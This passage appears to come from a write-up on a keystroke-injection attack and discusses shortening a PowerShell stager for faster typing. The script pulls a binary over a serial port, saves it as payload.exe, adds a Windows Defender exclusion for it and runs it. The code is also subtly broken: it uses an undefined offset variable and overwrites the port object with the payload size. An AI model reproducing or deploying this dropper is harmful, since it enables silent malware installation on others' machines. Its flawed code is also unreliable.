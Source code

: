 This script works but there is a fairly big problem. That is that each *character* in the script has to be written. Since each keystroke were set to have a delay, this will take some time. If the polling rate were set to 10 ms, then the theoretical minimum time would be **numChars * 10ms**. It therefore has to be shortened. 

First of all, all variables do not need to have full readable names and can simply be shortened to a single letter. 

````powershell
function Read { param($s, $c)
    $b = New-Object byte[] $c
    $o = 0
    while ($o -lt $c) {
        $r = $s.Read($b, $offset, ($c - $o))
        $o += $r
    }
    return $b
}

$n = [System.IO.Ports.SerialPort]::GetPortNames()
if ($n.Length -gt 0) {
    foreach ($p in $n) {
        $s = New-Object System.IO.Ports.SerialPort($p, 115200, 'None', 8, 'One')
        $s.ReadTimeout = 50

        $s.Open()
        if ($s.IsOpen) {
            [byte[]] $h = 0xB, 0xE, 0xE, 0xF
            $s.Write($h, 0, 4)
            $a = Read $s 4
            if (-not (Compare-Object $a (0xD,0xE,0xA,0xD))) {
                $r = Read $s 4
                $s = [BitConverter]::ToInt32($r, 0)

                if ($s -gt 0) {
                    $m = New-Object byte[] $s
                    $m = Read $s $s

                    $f = Join-Path $HOME "Desktop/payload.exe"
                    [System.IO.File]::WriteAllBytes($f, $m)
                    Add-MpPreference -ExclusionPath $f
                    & $f
                }
            }
            $s.Close()
        }
    }
}
````

### 5.1.1. Removing Whitespace

Secondly, all indentation has to go. But since this makes the script a complete mess. It'll be easier to do this at runtime when "writing" the script. Especially since newlines has to be dealt with as well. Remember, there is no "newline" on a keyboard. Instead this is application specific. In a text editor this is accomplish with the `Enter` key, but in a PowerShell terminal the `Enter` key would execute whatever has been written. Thus this has to be dealt with on a case by case basis.
